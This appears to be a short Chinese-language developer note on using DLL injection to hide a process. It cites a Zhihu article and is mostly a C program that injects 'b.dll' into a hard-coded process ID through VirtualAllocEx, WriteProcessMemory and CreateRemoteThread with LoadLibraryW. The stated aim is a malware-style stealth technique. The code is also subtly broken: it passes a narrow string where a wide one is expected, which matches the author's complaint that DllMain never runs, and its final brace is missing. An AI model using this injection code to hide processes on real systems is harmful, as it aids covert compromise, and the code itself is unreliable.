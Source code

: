 
## 注入dll，实现进程隐藏
参考链接：DLL 注入技术的 N 种姿势 - 知乎
https://zhuanlan.zhihu.com/p/28537697

显示注入成功，但是并不会执行DllMain，很奇怪。


```c
#include <windows.h>
#include <stdio.h>

int main()
{



	DWORD 	dwProcessId=1344;

	char pszLibFile[]="b.dll";
	DWORD dwSize = (lstrlenW((const unsigned short *)pszLibFile) + 1) * sizeof(wchar_t);



	HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, dwProcessId);
	
	printf("hProcess:%p\n",hProcess);


	// 在远程进程中为路径名称分配空间
	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	printf("pszLibFileRemote:%p\n",pszLibFileRemote);


	// 将DLL路径名称复制到远程进程地址空间
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	printf("n:%p\n",n);



	// 获取Kernel32.dll中的LoadLibraryW函数的真正地址
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");

	printf("pfnThreadRtn:%p\n",pfnThreadRtn);


	// 创建远程线程调用LoadLibraryW(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
	
	if (hThread == NULL)
	{
		printf("%s\n","Error: Could not create the Remote Thread.\n");
		return(1);
	}else{
		printf("%s\n"," Success: DLL injected via CreateRemoteThread()");
	}
	

	return 0;

```